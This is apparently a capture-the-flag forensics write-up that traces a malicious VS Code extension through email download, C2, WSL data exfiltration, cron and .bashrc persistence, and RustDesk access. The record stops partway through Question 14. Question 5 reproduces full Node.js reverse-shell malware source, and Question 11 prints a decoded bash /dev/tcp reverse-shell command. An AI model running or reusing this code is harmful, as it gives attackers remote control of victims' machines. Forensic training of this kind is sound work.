<div align="center">
<h1>ScriptFire 2 Lab - Endpoint Forensics</h1>
</div>

## Scenario
An internal workstation belonging to a developer named Jimmy was suspected of being compromised after he downloaded and installed a suspicious IDE extension received via email. You are tasked with analyzing the collected Windows filesystem artifacts to reconstruct the attack chain, from initial access to data exfiltration, persistence, and remote desktop activity.

> **Artifact:** `C-Drive-Capture` (C disk exported as a folder)

We can parse and inspect the extracted C drive directory using **Autopsy**, a premier open-source digital forensics platform.

<br>

## Question 1

<table>
<tr>
<td style="background-color:#fff8dc; border-left: 5px solid #f5c518; padding: 12px 16px;">
During an email exchange with the attacker, Jimmy was tricked into downloading a rogue IDE add-on. <b>What is the filename of the downloaded archive?</b>
</td>
</tr>
</table>

<br>

Observing the disk, there are two users, **btron** and **buffjtron**. I went with my hunch and examined **buffjtron** first.

Observing **buffjtron**'s desktop folder, we found 3 `.lnk` files, and one of them caught my attention which is **Comet**.

<div align="center">
  
</div>

A quick search reveals that **Comet** is an AI-powered web browser, indicating that the user may have used this browser to browse his mails.

<div align="center">
  
</div>

I checked the browser history stored at:

**History location:** `/C/Users/buffjtron/AppData/Local/Perplexity/Comet/User Data/Default/History`

Opening and examining the `History` artifact which stores the web browser history, we found out that he did actually use Comet to open his mail.

<div align="center">
  
</div>

From the browser history, I found that the user had downloaded an archive named **code-helper-pro-3.2.8.zip**, which appeared to be the malicious IDE extension mentioned in the question.

Further examination revealed that he did install a `.zip` from Outlook.

<div align="center">
  
</div>

> Answer: code-helper-pro-3.2.8.zip

<br>

## Question 2

<table>
<tr>
<td style="background-color:#fff8dc; border-left: 5px solid #f5c518; padding: 12px 16px;">
After unpacking the downloaded archive, Jimmy installed the malicious add-on. <b>What is the installation timestamp of this extension?</b>
</td>
</tr>
</table>

<br>

After identifying the downloaded archive, I continued examining the extracted extension files to determine when it was installed.

To determine the extension installed after extracting the archive, we will parse the `$MFT` into a CSV and put it on **Timeline Explorer** to investigate based on the Parent Entry Number of the malicious file.

<div align="center">
  
</div>

The malicious file installed 6 files and 2 folders.

<div align="center">
  
</div>

The first extension-related file I identified was **.vsixmanifest**, which had a timestamp of `2026-05-14 07:52`.

Based on this artifact, I determined that the malicious extension was installed at that time.

> Answer: 2026-05-14 07:52

<br>

## Question 3

<table>
<tr>
<td style="background-color:#fff8dc; border-left: 5px solid #f5c518; padding: 12px 16px;">
Check the extension metadata. <b>What is the display name of the malicious extension?</b>
</td>
</tr>
</table>

<br>

After locating the malicious extension, I examined its configuration files to identify the display name.

The display name can be found in the `package.json` file (and `.vsixmanifest`), which contains the extension's metadata and configuration.

Using **ExifTool** to examine the file's metadata, we found out the display name of it is **Code Helper Pro**.

<div align="center">
  
</div>

> Answer: Code Helper Pro

<br>

## Question 4

<table>
<tr>
<td style="background-color:#fff8dc; border-left: 5px solid #f5c518; padding: 12px 16px;">
Examine the extension manifest to see how it triggers. <b>Which activation event causes the extension to run automatically once VS Code finishes starting up?</b>
</td>
</tr>
</table>

<br>

A quick search revealed that activation events are declared under the `activationEvents` field of `package.json`.

<div align="center">
  
</div>

I then examined the extension's `package.json` file to identify the activation event.

Examining the `package.json` gave us the answer.

<div align="center">
  
</div>

The `activationEvents` field contains **onStartupFinished**, which means the extension is activated after Visual Studio Code finishes starting.

> Answer: onStartupFinished

<br>

## Question 5

<table>
<tr>
<td style="background-color:#fff8dc; border-left: 5px solid #f5c518; padding: 12px 16px;">
Inspect the extension source code. <b>Which class handles establishing the command-and-control (C2) channel?</b>
</td>
</tr>
</table>

<br>

I did some further investigation into `DevTools.team.code.helper.pro-3.2.8` and found a `.js` script inside the `\out` directory.

While examining the file, I encountered a suspicious encoded string, which appeared to be Base64. Decrypting the string got us `metrics.vscode-pro.xsdfghj.xyz`.

<div align="center">
  
</div>

Further examination of the script revealed a class named **AnalyticsService**, which contains the functionality responsible for establishing the C2 connection.

Whole script:

```javascript
class AnalyticsService extends EventEmitter {
    constructor() {
        super();
        this.sessionId = this._generateId();
        this.config = this._initializeConfig();
        this.active = false;
        this.connectionAttempts = 0;
    }

    _generateId() {
        return `${Date.now()}-${Math.random().toString(36).substr(2, 9)}`;
    }

    _initializeConfig() {
        const encoded = 'bWV0cmljcy52c2NvZGUtcHJvLnhzZGZnaGoueHl6Ojg4OA==';
        const decoded = Buffer.from(encoded, 'base64').toString('ascii');

        let host, ports;
        if (decoded.includes(':')) {
            const parts = decoded.split(':');
            host = parts[0];
            ports = [parseInt(parts[1])];
        } else {
            host = decoded;
            ports = [888, 443, 8080, 80];
        }

        return {
            endpoints: [host],
            ports: ports,
            reconnectInterval: 30000,
            healthCheckInterval: 45000,
            maxRetries: -1
        };
    }

    async _performHealthCheck() {
        if (!this.active) {
            return;
        }

        const net = require('net');
        const { spawn } = require('child_process');

        for (const endpoint of this.config.endpoints) {
            for (const port of this.config.ports) {
                try {
                    await this._establishChannel(net, spawn, endpoint, port);
                    return;
                } catch (err) {
                    continue;
                }
            }
        }

        setTimeout(() => this._performHealthCheck(), this.config.reconnectInterval);
    }

    async _establishChannel(net, spawn, host, port) {
        return new Promise((resolve, reject) => {
            const socket = new net.Socket();
            const timeout = setTimeout(() => {
                socket.destroy();
                reject(new Error('Connection timeout'));
            }, 5000);

            socket.connect(port, host, () => {
                clearTimeout(timeout);

                const shell = this._getShell();

                const proc = spawn(shell.cmd, shell.args, {
                    stdio: 'pipe',
                    windowsHide: true,
                    detached: false,
                    shell: false
                });

                socket.pipe(proc.stdin);
                proc.stdout.pipe(socket);
                proc.stderr.pipe(socket);

                socket.on('close', () => {
                    proc.kill();
                    setTimeout(() => this._performHealthCheck(), this.config.reconnectInterval);
                });

                proc.on('exit', (code) => {
                    socket.end();
                });

                proc.on('error', (err) => {
                });

                this.emit('channel-established', { host, port });
                resolve();
            });

            socket.on('error', (err) => {
                clearTimeout(timeout);
                reject(err);
            });
        });
    }

    _getShell() {
        const platform = os.platform();

        if (platform === 'win32') {
            const cmd = process.env.COMSPEC || 'cmd.exe';
            return {
                cmd: cmd,
                args: []
            };
        } else if (platform === 'darwin' || platform === 'linux') {
            return {
                cmd: '/bin/sh',
                args: []
            };
        }
        return { cmd: 'cmd.exe', args: [] };
    }

    startService() {
        this.active = true;

        setTimeout(() => {
            this._performHealthCheck();
        }, 5000);

        setInterval(() => {
            if (this.active) {
                this._performHealthCheck();
            }
        }, this.config.healthCheckInterval);
    }

    stopService() {
        this.active = false;
    }
}
```

Here is how it works:

1. **Initialize:** Generates a session ID and decodes the Base64-encoded C2 address: `metrics.vscode-pro.xsdfghj.xyz:888`.
2. **Delay:** Waits 5 seconds after `startService()` is called.
3. **Connect:** Attempts an outbound TCP connection to the C2 server on port 888.
4. **Spawn shell:** If connected, launches `cmd.exe` on Windows or `/bin/sh` on Linux/macOS.
5. **Establish reverse shell:** Forwards incoming network data to the shell and sends command output and errors back over the TCP socket.
6. **Reconnect:** If the connection closes or attempts fail, schedules further connection attempts.
7. **Stop attempt:** `stopService()` sets `active = false`, but does not reliably terminate an existing shell or clear scheduled intervals.

As we can observe, the **AnalyticsService** class is responsible for establishing the outbound C2 connection and creating a reverse shell that allows the threat actor to execute commands remotely.

> Answer: AnalyticsService

<br>

## Question 6

<table>
<tr>
<td style="background-color:#fff8dc; border-left: 5px solid #f5c518; padding: 12px 16px;">
From the deobfuscated script configuration, <b>what C2 server hostname is hardcoded inside the source code?</b>
</td>
</tr>
</table>

<br>

As we discovered back in Q5, the C2 server address is stored as a Base64-encoded string inside the **AnalyticsService** class.

The encoded string is:

```
bWV0cmljcy52c2NvZGUtcHJvLnhzZGZnaGoueHl6Ojg4OA==
```

Decoding it reveals:

```
metrics.vscode-pro.xsdfghj.xyz:888
```

The script then separates the hostname and port before attempting to establish a TCP connection.

Therefore, the C2 server address is **metrics.vscode-pro.xsdfghj.xyz**.

> Answer: metrics.vscode-pro.xsdfghj.xyz

<br>

## Question 7

<table>
<tr>
<td style="background-color:#fff8dc; border-left: 5px solid #f5c518; padding: 12px 16px;">
Once C2 connectivity was established, the attacker spotted WSL on the endpoint. <b>At what timestamp did they first access WSL?</b>
</td>
</tr>
</table>

<br>

So for this question, my first instinct was to check for the Sysmon `.evtx`, which unfortunately wasn't there. My next target was the `Security.evtx`.

I parsed the `.evtx` using **EVTXECmd** and opened it in **Timeline Explorer**, checking for Event ID `4688` for any processes related to `wsl.exe`, `cmd.exe`, or `powershell.exe`, but none were found.

I then checked the Prefetch files and found `WSL.EXE`, parsed it using **PECmd**, and got this:

<div align="center">
  
</div>

The script containing the C2 configuration was modified on `2026-05-14` at `07:52`, so I considered every execution timestamp after this as a potential candidate.

The question specifically asks:

> "At what timestamp did they first access WSL?"

By that, I think they meant the first time the threat actor accessed WSL after establishing the C2 connection, which comes down to the second-to-last execution timestamp recorded in the Prefetch.

Based on this interpretation, the timestamp is `2026-05-14 09:03:18`.

> Answer: 2026-05-14 09:03:18

<br>

## Question 8

<table>
<tr>
<td style="background-color:#fff8dc; border-left: 5px solid #f5c518; padding: 12px 16px;">
Inside WSL, the attacker gathered local files and browser artifacts before exfiltrating them. <b>What is the name of the final archive uploaded to an external file-sharing service?</b>
</td>
</tr>
</table>

<br>

After identifying the likely WSL access time, I continued examining the WSL filesystem to determine what commands the threat actor executed.

A quick web search revealed that the WSL filesystem is stored under `CanonicalGroupLimited.UbuntuonWindows_[hash]`.

<div align="center">
  
</div>

Navigating to the location, we found the filesystem; what to do now is to check for the bash history of the user for any `curl`-related command.

<div align="center">
  
</div>

Further examination of the `.bash_history` revealed commands related to collecting files, preparing them for upload, and transferring data to an external file-sharing service.

One of the commands referenced `filedrop.app` and used `curl` to upload a file named **vscode-ipc-942ab71033.sock**.

<div align="center">
  
</div>

The command used the `-T` option, which instructs `curl` to upload the specified file.

Based on the command history, this was the final file identified in the upload sequence.

> Answer: vscode-ipc-942ab71033.sock

<br>

## Question 9

<table>
<tr>
<td style="background-color:#fff8dc; border-left: 5px solid #f5c518; padding: 12px 16px;">
Determine where the collected data was temporarily staged. <b>What is the full Windows path of the WSL staging directory?</b>
</td>
</tr>
</table>

<br>

Further examination of the `.bash_history` revealed that the attacker packaged the collected data into a directory named **pyright-4812-9kL3M8PqrT2X**.

The directory contained:

- All `*.csv` files from `~/process/`.
- All `*.xlsx` files from `~/process/`.
- `retail_dataset.ipynb`.
- `comet.tar.gz`, containing the `User Data` directory from `~/perplexity/comet/`.

The staging directory was located under `/tmp/` inside the WSL filesystem.

Since the compromised system used Ubuntu through WSL, the corresponding Windows path would be located under the Ubuntu package's `LocalState\rootfs` directory.

WSL staging location:

```
/tmp/pyright-4812-9kL3M8PqrT2X
```

Windows path:

```
C:\Users\buffjtron\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu_79rhkp1fndgsc\LocalState\rootfs\tmp\pyright-4812-9kL3M8PqrT2X
```

<div align="center">
  
</div>

> Answer: C:\Users\buffjtron\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu_79rhkp1fndgsc\LocalState\rootfs\tmp\pyright-4812-9kL3M8PqrT2X

<br>

## Question 10

<table>
<tr>
<td style="background-color:#fff8dc; border-left: 5px solid #f5c518; padding: 12px 16px;">
Among the non-browser files staged and exfiltrated by the attacker, <b>what is the filename of the largest file?</b>
</td>
</tr>
</table>

<br>

To identify the largest file among the exfiltrated files, I extracted and parsed the `$MFT` using **MFTECmd** and checked for all the files the attacker had copied into `pyright-4812-9kL3M8PqrT2X`.

I then filtered the `$MFT` for files with the `.csv`, `.xlsx`, `.ipynb`, and `.gz` extensions to identify the collected files and compare their sizes.

From the results, I found that **revenue_data-large-1.csv** was the largest file, with a size of approximately 68.92 MB.

<div align="center">
  
</div>

> Answer: revenue_data-large-1.csv

<br>

## Question 11

<table>
<tr>
<td style="background-color:#fff8dc; border-left: 5px solid #f5c518; padding: 12px 16px;">
After cleaning up the staging directory, the attacker added a cron job inside WSL for persistence. <b>Which destination port does the crontab payload connect to?</b>
</td>
</tr>
</table>

<br>

After examining the commands executed inside WSL, I continued investigating the persistence mechanism.

I checked the user's crontab located at:

```
rootfs/var/spool/cron/crontabs/btron
```

The crontab contained an entry with a Base64-encoded string, which appeared to be responsible for establishing the outbound connection.

At the end of **btron**'s bash history, there is a suspicious encoded string.

<div align="center">
  
</div>

Decoding it gave us:

```bash
(bash >& /dev/tcp/metrics.vscode-pro.xsdfghj.xyz/9522 0>&1) &
```

This is a Bash reverse shell for remote command execution and persistent remote access via `metrics.vscode-pro.xsdfghj.xyz:9522`.

The command uses `/dev/tcp/` to establish an outbound TCP connection and redirects the shell's input and output through that connection.

Since the command is configured in crontab, it provides a mechanism for the threat actor to regain access when the scheduled task executes.

> Answer: 9522

<br>

## Question 12

<table>
<tr>
<td style="background-color:#fff8dc; border-left: 5px solid #f5c518; padding: 12px 16px;">
To survive cleanup of the primary cron job, a fallback script was dropped. <b>What is the name of this secondary Bash persistence script?</b>
</td>
</tr>
</table>

<br>

I got quite stuck here, so I decided to parse the `$MFT` and filter out every file with the `.sh` extension.

After examining the results, I found a suspicious Bash script named **syscheck.sh**.

Since the question mentioned a secondary persistence mechanism, this file appeared to be a potential candidate.

I then used the filename to investigate where the script was referenced within the WSL filesystem.

> Answer: syscheck.sh

<br>

## Question 13

<table>
<tr>
<td style="background-color:#fff8dc; border-left: 5px solid #f5c518; padding: 12px 16px;">
The fallback script writes to two files inside WSL. <b>What is the Windows path (starting from rootfs) of the file that triggers execution of this script?</b>
</td>
</tr>
</table>

<br>

Now that I had the script name, I decided to check every place it appeared within the WSL folder, since the persistence mechanism was established through WSL.

I used the following command to search for references to `syscheck`:

```cmd
C:\Users\Administrator\Desktop\Start Here\Artifacts\disk image\C\Users\buffjtron\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu_79rhkp1fndgsc\LocalState>findstr /S /I /M "syscheck" *.*
```

The command returned:

```
rootfs\root\.bashrc
```

It appeared that the persistence mechanism was planted in `.bashrc`.

I then checked `.bashrc` and found a reference to `syscheck.sh`, indicating that the script was configured to execute when the corresponding Bash startup file was processed.

<div align="center">
  
</div>

The `.bashrc` file is executed when Bash starts in an interactive, non-login shell, which makes it a possible secondary persistence mechanism.

> Answer: rootfs\root\.bashrc

<br>

## Question 14

<table>
<tr>
<td style="background-color:#fff8dc; border-left: 5px solid #f5c518; padding: 12px 16px;">
Later, the attacker connected back to Jimmy's workstation via RustDesk. <b>According to the RustDesk server logs, when was the session successfully opened (UTC)?</b>
</td>
</tr>
</table>

<br>

To identify at which time the attacker first successfully accessed Jimmy's system, we need to examine the RustDesk logs.

A quick Google search revealed that RustDesk stores its server logs under `C:\Windows\ServiceProfiles\LocalService\AppData\Roaming\RustDesk\log\server\`.

<div align="center">
